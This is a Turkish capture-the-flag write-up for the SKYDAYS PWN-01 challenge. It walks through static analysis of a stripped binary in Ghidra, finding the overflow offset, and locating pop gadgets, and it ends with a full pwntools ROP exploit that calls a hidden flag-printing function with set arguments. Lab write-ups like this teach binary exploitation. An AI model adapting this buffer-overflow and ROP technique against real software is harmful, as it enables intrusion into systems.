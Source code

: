 # SKYDAYS CTF PWN-01

# Giriş

 Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu değildir, başka çözümler olabilmektedir.

# Soru

 Bize “chal” isimli bir dosya verilmiş, bu dosyayı açtığımızda karşımıza şöyle bir ekran çıkmakta:

![Untitled](assets/0.png)

 Program bizden bir girdi alıyor ve aldığı girdiği ekrana yazdırıyor. Bu durumda bizden sorunun içerdiği bayrağı bulmamız isteniyor.

# Çözüm

 Bize verilen dosyanın özelliklerine bakalım:

![Untitled](assets/1.png)

![Untitled](assets/2.png)

 Dosyanın 64-bit mimaride, ‘little endian’ biçimde, dinamik olarak bağlanmış ve ‘stripped’ olduğunu; koruma olarak ise ‘NX’ ve ‘Partial RELRO’ içerdiğini görüyoruz.

 Dosyamızda bayrağın nerede olduğunu öğrenmek için dosyayı ‘ghidra’ ile inceleyelim:

![Untitled](assets/3.png)

 Dosyamız ‘stripped’ olduğundan fonksiyonların isimlerine ulaşamıyoruz. Bundan dolayı programın ne yaptığını anlamak için “entry” fonksiyonundan başlayarak inceleyelim:

![Untitled](assets/4.png)

 “entry” fonksiyonu bizi ‘FUN_0040128e’ fonksiyonuna yani “main” fonksiyonuna gönderiyor. “main” fonksiyonuna bakalım:

![Untitled](assets/5.png)

 “main” fonksiyonu ise benzer bir şekilde ‘FUN_00401231’ fonksiyonunu çağırıyor. ‘FUN_00401231’ fonksiyonuna bakalım:

![Untitled](assets/6.png)

 Programı çalıştırdığımızda karşımıza çıkan ekranın kodunu görüyoruz. Bu kod başka bir fonksiyonu çağırmıyor fakat bayrağı bize verecek fonksiyonu bulmamız gerek. Bunun için diğer fonksiyonlara bakalım:

![Untitled](assets/7.png)

 Karşımıza böyle ilginç bir fonksiyon çıkıyor. Bu fonksiyon üç adet parametre alıyor ve bu parametreler sırasıyla ‘0xdeadbeef’, ‘0xc0debabe’ ve ‘0xcacadada’ değerlerine eşit olursa ‘flag.txt’ dosyasının içeriğini ekrana yazdırıyor. Eğer parametreler bu değerlere eşit değilse ekrana “Nope, that’s not how you’re supposed to solve this challenge :D” yazdırıyor.

 ‘flag.txt’ dosyası tam da bizim erişmek istediğimiz dosya. Bunun için bir şekilde bu fonksiyona erişip parametrelere doğru değerleri yazmamız gerekiyor. Bunu yapmak için de ‘FUN_00401231’ fonksiyonundaki ‘buffer’ı kullanabiliriz yani bir ‘buffer overflow’ atağı yapabiliriz.

 Öncelikle programımızı ‘debugger’ yardımıyla çalıştırıp ‘rip register’ının ‘offset’ini bulmamız gerek. Bunu şu şekilde yapabiliriz:

![Untitled](assets/8.png)

 Burada ‘rsp register’ına dolan en soldaki değerlerden sonraki değerler ‘rip register’ına ulaşacak değerlerdir. Bundan dolayı ‘offset’imizi öğrenmek için ‘daaaaaaa’ değerinin ‘pattern’imizde kaçıncı sırada geldiğini bulmamız gerekir:

![Untitled](assets/9.png)

 Böylelikle ‘offset’imizin 24 olduğunu bulmuş olduk, bu ileride işimize yarayacak.

 Bayrağı yazdıracak fonksiyona dönmek için bu fonksiyonun adresine ihtiyacımız var. Sadece dönmemiz de yetmeyecek, parametreleri de uygun değerlerle eşleştirmemiz gerekiyor. Bunun için önce parametreleri oluşturmalı daha sonra fonksiyonu çağırmalıyız. Parametrelerin hangi ‘register’lar ile kontrol edildiğini öğrenmek için ‘ghidra’da açtığımız fonksiyonun ‘assembly’ kısmına bakalım:

![Untitled](assets/10.png)

 Fonksiyonun adresini ‘0x401176’ olarak bulmuş olduk. Parametreleri program sırasıyla ‘rdi’, ‘rsi’, ‘rdx’ ‘register’larındaki değerlerle karşılaştırıyor yani bu ‘register’lara uygun değerleri yazmamız gerekecek. Bunu yapmak için ise ‘pop’ ‘gadget’ına ihtiyacımız var. ‘Ropper’ aletini kullanarak bu ‘gadget’lara ulaşabiliriz:

![Untitled](assets/11.png)

 Bize gereken ‘gadget’ları bulmuş olduk. Bunları not edelim. İhtiyacımız olan bilgileri elde ettiğimize göre artık ‘script’imizi yazabiliriz:

```python
from pwn import *

#terminalde script'i GDB,REMOTE,LOCAL modlarında çalıştırmak için:
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

#binary dosyasının mimarisini ayarlamak için:
exe = './chal' #dosya adı
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug' #olan biteni anlamak için

#####################################
# exploit'i buradan sonra yazacağız #
#####################################

#BOF için gdb'den öğrendiğimiz offsetimizi buraya yazıyoruz:
offset = 24

#ropper'dan öğrendiğimiz gadget adreslerini buraya yazıyoruz:
pop_rdi = 0x401289
pop_rdx = 0x401287
pop_rsi = 0x401285

#programı başlatıyoruz:
io = start()

#payload'ı oluşturuyoruz:
payload = flat({
    offset: [
        pop_rdi,  # Pop the next value to RDI
        0xdeadbeefdeadbeef,
        pop_rsi,  # Pop the next value to RSI (and junk into R15)
        0xc0debabec0debabe,
        pop_rdx,
        0xcacadadacacadada,
        # With params in correct registers, call hacked function
        0x401176
    ]
})

#payload'ımızı yolluyoruz:
io.sendlineafter(b'name:', payload)

#flag'i okuyabilmek için interaktif moda geçiyoruz:
io.interactive()
```

 ‘script’imizi çalıştırdığımızda bayrağımızı elde ediyoruz:

![Untitled](assets/12.png)

---

written by: KOTAMAN
